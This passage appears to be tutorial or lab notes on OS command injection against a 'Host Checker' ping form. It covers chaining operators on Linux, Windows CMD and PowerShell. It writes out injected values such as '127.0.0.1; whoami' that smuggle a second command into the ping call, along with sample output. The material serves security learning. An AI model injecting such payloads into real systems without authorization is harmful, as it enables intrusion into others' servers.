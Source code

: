 This would result in:

```bash
ping -c 1 127.0.0.1;id
```

If the application executes this as-is, the `id` command output will be included in the response — confirming injection.
### Notes on Platform Differences

- Linux/macOS:    
    - All injection operators are supported.
    - Subshells (`` ` ``, `$()`) work as expected.        
- Windows (CMD):
    - `;` does not work.
    - Prefer `&&`, `||`, or `&` for chaining commands.        
- Windows PowerShell:
    - `;` is supported, but the context might differ.
### Detection Tips

- Try benign commands like `id`, `whoami`, or `uname -a`.    
- Check which commands get reflected in the output.
- Always URL-encode payloads during real exploitation or fuzzing.    
# Injecting Commands

After identifying that the Host Checker is potentially vulnerable to command injection, we proceed with testing payloads using common operators.
### Step 1: Crafting the Payload

We attempt to inject the following payload into the input field:

```
127.0.0.1; whoami
```

Expected execution on the back-end:

```bash
ping -c 1 127.0.0.1; whoami
```
### Step 2: Local Testing

Before exploiting the application, test the payload locally on your Linux terminal:

```bash
ping -c 1 127.0.0.1; whoami
```

Expected output:

```
PING 127.0.0.1...
...
21y4d
```
